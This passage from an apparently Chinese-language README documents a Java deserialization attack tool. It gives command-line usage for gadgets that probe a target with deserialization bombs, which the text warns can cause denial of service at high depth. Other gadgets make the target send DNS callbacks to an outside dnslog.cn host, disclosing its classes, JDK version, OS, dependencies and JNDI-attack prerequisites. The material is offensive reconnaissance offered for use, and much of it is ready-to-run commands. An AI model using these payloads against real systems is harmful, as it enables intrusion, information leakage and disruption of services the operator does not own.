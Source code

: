 ### FindClassByBomb

描述：在不出网的情况下测试Java反序列化漏洞是否存在，或者延迟探测目标是否有某个类。使用时注意设置深度，一般定在25-28之间，太大会导致dos。具体反序列化炸弹的原理可参考c0ny1师傅的[构造java探测class反序列化gadget](https://gv7.me/articles/2021/construct-java-detection-class-deserialization-gadget/)文章。

工具：竖杠前面时类名，后面是反序列化的深度

```java
-m YsoAttack -g FindClassByBomb -a "java.lang.String|20"
```

### FindClassByBombSuid

描述：在不出网情况下测试Java反序列化漏洞是否存在，或者延迟探测目标是否有某个类。在CB依赖的15和16版本中类没有区别，但是在BeanComparator类suid不同，所以此时已经无法再只类名来延迟判断版本了，可使用javassist根据类名和serialVersionUID动态生成类然后序列化发送来探测。

工具：以竖杠来分割，参数分别为类名，suid值，探测深度。

```java
-m YsoAttack -g FindClassByBombSuid -a "org.apache.commons.beanutils.BeanComparator|1L|24"
```

### FindClassByDNS

描述：用DNS形式探测目标系统中是否存在某个类

工具：使用方式如下：竖杠前是dns地址，后面是类名，dns域名前面需要加http://协议头

```java
-m YsoAttack -g FindClassByDNS -a "http://string.dnslog.cn|java.lang.String"
```

### FindGadgetByDNS

描述：使用DNS来探测目标系统的JDK版本，操作系统版本，反序列化依赖，中间件等，参考自：[kezibei-Urldns](https://github.com/kezibei/Urldns)

工具：在冒号前面写dns的域名，冒号后写探测的内容

#### all 探测所有能探测的类

* 使用all探测 FindGadgetByDNS 能探测的所有内容

```bash
-m YsoAttack -g FindGadgetByDNS -a "string.dnslog.cn:all"
```

#### jndiall 探测jndi攻击模式的类

* 使用jndiall探测jndi攻击模式涉及的类是否存在

```bash
-m YsoAttack -g FindGadgetByDNS -a "string.dnslog.cn:jndiall"
```

#### 选择性探测类

* 可以选择性探测类，用竖杠|分割开来
